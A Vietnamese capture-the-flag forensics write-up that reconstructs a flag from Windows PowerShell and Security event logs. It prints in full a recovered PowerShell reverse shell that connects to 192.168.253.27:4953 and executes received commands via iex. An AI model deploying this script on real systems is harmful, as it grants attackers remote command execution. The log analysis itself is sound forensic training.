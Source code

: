 ![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20154222.png)

# Phân tích
Đề bài cho một thư mục bào gồm cái file log

Sử dụng `Event Viewer` để phân tích. Mở file `Microsoft-Windows-PowerShell%4Operational.evtx`, để xem các powershell đã thực thi. Thấy một đoạn script có vè khả nghi:

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20154731.png)

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.253.27", 4953)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | ForEach-Object { 0 }
$sendbyte = "KMACTF{$(([System.BitConverter]::ToString(([System.Security.Cryptography.MD5]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(((Get-Process -Id $PID).Id.ToString()+[System.Security.Principal.WindowsIdentity]::GetCurrent().Name+(Get-Date).ToString())))))).Replace('-', '').ToLower())}"
$sendbyteBytes = [System.Text.Encoding]::ASCII.GetBytes($sendbyte)
$stream.Write($sendbyteBytes, 0, $sendbyteBytes.Length)
$stream.Flush()
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "
    $sendbyte = ([Text.Encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
$client.Close()
```
Đọc qua đoạn script trên thì nó thực hiện như sau : 
- Lấy PID của tiến trình hiện tại: `Get-Process -Id $PID`
- Lấy tên của Domain và User: `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name`
- Lấy thời gian lúc thực hiện script: `Get-Date`
- Sau đó băm MD5 những thứ lấy được và gửi cho ip `192.168.253.27` qua port `4953` bằng giao thức TCP

# Solved

## Lấy PID 
Để xem PID của tiến trình ta xem Event dưới dạng XML Details 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20155819.png)

Nhưng có vẻ như đã bị động tay khiến cho không thể xem được. Xem tiếp các event khác thì thấy vẫn xem được

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20162724.png)

Nhận thấy event này được thực thi chỉ cách đoạn trước có 1 giây nên khả năng là nằm trong cùng 1 tiến trình => PID = 4144

# Lấy Domain và User

Xem phần Path

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20160939.png)

Đươc user = long

Còn Domain thì sử dụng file `Security.evtx` để lấy :

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20161053.png)

=> Domain = KMA
# Lấy thời gian :

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20161236.png)

Time = `5/22/2023 5:09:58 PM`

# Lấy Flag

Chạy đoạn script:
```ps
echo "KMACTF{$(([System.BitConverter]::ToString(([System.Security.Cryptography.MD5]::Create()).ComputeHash(([System.Text.Encoding]::UTF8.GetBytes(("4144"+"KMA\long"+"5/22/2023 5:09:58 PM")))))).Replace('-', '').ToLower())}"
```
Ta đươc flag:

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-06-20%20163630.png)
